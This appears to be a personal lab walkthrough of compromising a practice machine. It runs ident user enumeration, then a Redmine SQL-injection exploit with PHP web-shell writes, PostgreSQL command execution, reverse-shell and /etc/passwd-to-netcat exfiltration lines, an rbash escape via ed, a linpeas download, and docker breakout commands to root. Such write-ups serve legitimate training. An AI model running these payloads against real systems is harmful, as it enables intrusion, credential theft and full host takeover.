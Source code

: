 ### Ident-user-enum
```bash
❯ apt-cache show ident-user-enum
Package: ident-user-enum
Version: 1.0-0kali2
Architecture: all
Maintainer: Kali Developers <devel@kali.org>
Installed-Size: 12
Depends: perl, libnet-ident-perl, libio-socket-ip-perl
Homepage: http://pentestmonkey.net/tools/user-enumeration/ident-user-enum
Priority: optional
Section: utils
Filename: pool/main/i/ident-user-enum/ident-user-enum_1.0-0kali2_all.deb
Size: 2836
SHA256: 139d6dd478f2d1b31fa333a4d6c689930076b3d6b085c6d8075c9f3245cf9eeb
SHA1: 9f5c962d823e173728dad160a055f212683a3cc0
MD5sum: 91a1a052fa0ecd5b34e76b491847266d
Description: Query ident to determine the owner of a TCP network process
 This package is a simple PERL script to query the ident service (113/TCP)
 in order to determine the owner of the process listening on each TCP port of
 a target system.
 .
 This can help to prioritise target service during a pentest (you might want
 to attack services running as root first).
 Alternatively, the list of usernames gathered can be used for password
 guessing attacks on other network services.
Description-md5: e01d88837682206cf3cd3e4d210eee60
```

```bash
ident-user-enum $IP 22 113 5432 8080 10000
ident-user-enum v1.0 ( http://pentestmonkey.net/tools/ident-user-enum )

192.168.200.60:22       root
192.168.200.60:113      nobody
192.168.200.60:5432     <unknown>
192.168.200.60:8080     <unknown>
192.168.200.60:10000    eleanor
```

### nmap
`sudo nmap -sV -sS -sC -A $IP -p22,113,5432,8080,10000`

8080: admin/admin

### Redmine RCE (rabbit hole)
https://github.com/RealLinkers/CVE-2019-18890

```bash
❯ python3 exploit.py http://192.168.200.60:8080 admin 12345678 "SLEEP(10)"
(+) Injection succesful!
```

```bash
python3 exploit.py http://192.168.200.60:8080 admin 12345678 "select \"<?php SYSTEM(\$_REQUEST['cmd']); ?>\" into outfile '/var/www/html/alvin1.php'"

python3 exploit.py http://192.168.200.60:8080 admin 12345678 "select \"<?php SYSTEM(\$_REQUEST['cmd']); ?>\" into outfile '/var/www/redmine/alvin1.php'"

python3 exploit.py http://192.168.200.60:8080 admin 12345678 "select \"<?php SYSTEM(\$_REQUEST['cmd']); ?>\" into outfile '/var/www/redmine/public/alvin1.php'"

python3 exploit.py http://192.168.200.60:8080 admin 12345678 "select \"<?php SYSTEM(\$_REQUEST['cmd']); ?>\" into outfile '/var/www/html/redmine/alvin1.php'"
```

### Okay, let's do the PostgreSQL injection properly then (rabbit hole)
```
python3 exploit.py http://192.168.200.60:8080 admin 12345678 "select 1 from pg_sleep(5)"
python3 exploit.py http://192.168.200.60:8080 admin 12345678 "select 1 from pg_sleep\(5\)"
```

`COPY (SELECT 'sh -i >& /dev/tcp/192.168.49.200/10000 0>&1') TO '/tmp/pentestlab';`

```sql
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'ping 192.168.49.200';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
```

```sql
CREATE TABLE pentestlab (t TEXT);
INSERT INTO pentestlab(t) VALUES('sh -i >& /dev/tcp/192.168.49.200/10000 0>&1');
SELECT * FROM pentestlab;
COPY pentestlab(t) TO '/tmp/pentestlab';
```

```sql
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc 192.168.49.200 10000');
```

Okay, seems fine now after I created a subproject
```bash
❯ python3 exploit.py http://192.168.200.60:8080 admin 12345678 "SLEEP(5)"
(+) ProjectId 1 with a subproject was found succesfuly!
(+) Injection succesful!
<Response [200]>
```

### 10000 (rabbit hole)
```bash
feroxbuster -u http://192.168.200.60:10000 -t 10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x "txt,html,php,asp,aspx,jsp" -v -k -n -e
```

### Foothold
After wasting hours on Redmine, I realized the I got the SSH creds from very beginning `192.168.200.60:10000    eleanor`
```bash
ssh eleanor@$IP 
```

failed on bypass strict
```
❯ ssh eleanor@$IP -t bash
eleanor@192.168.200.60's password: 
rbash: bash: command not found
Connection to 192.168.200.60 closed.
                                                                                                                                                                                            
❯ ssh eleanor@$IP -t sh
eleanor@192.168.200.60's password: 
rbash: sh: command not found
Connection to 192.168.200.60 closed.
                                                                                                                                                                                            
❯ ssh eleanor@$IP -t zsh
eleanor@192.168.200.60's password: 
rbash: zsh: command not found
Connection to 192.168.200.60 closed.
```

Checking command availability
```
eleanor@peppo:~$ echo $PATH
/home/eleanor/bin

eleanor@peppo:~$ ls bin
chmod  chown  ed  ls  mv  ping  sleep  touch
```

https://gtfobins.github.io/gtfobins/ed/

`ed` It can be used to break out from restricted environments by spawning an interactive system shell.

```bash
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
```

### Root with Docker escape Shell

It can be used to break out from restricted environments by spawning an interactive system shell.
The resulting is a root shell.

```bash
id -> 999 docker
GTFObins -> shell
docker image ls -> list available images
docker run -v /:/mnt --rm -it postgres chroot /mnt sh
```

### Let's check linpeas
```
wget http://192.168.49.200:10000/linpeah.sh
```

```bash
OS: Linux version 4.9.0-12-amd64 (debian-kernel@lists.debian.org) (gcc version 6.3.0 20170516 (Debian 6.3.0-18+deb9u1) ) #1 SMP Debian 4.9.210-1 (2020-01-20)
User & Groups: uid=1000(eleanor) gid=1000(eleanor) groups=1000(eleanor),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),999(docker)
```

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#mounted-docker-socket-escape

```
#List images to use one
docker images
#Run the image mounting the host disk and chroot on it
docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash

# Get full access to the host via ns pid and nsenter cli
docker run -it --rm --pid=host --privileged ubuntu bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash

# Get full privs in container without --privileged
docker run -it -v /:/host/ --cap-add=ALL --security-opt apparmor=unconfined --security-opt seccomp=unconfined --security-opt label:disable --pid=host --userns=host --uts=host --cgroupns=host ubuntu chroot /host/ bash
```

### Summary
The initial shell got with exposed creds. Then `Docker escape` to get root.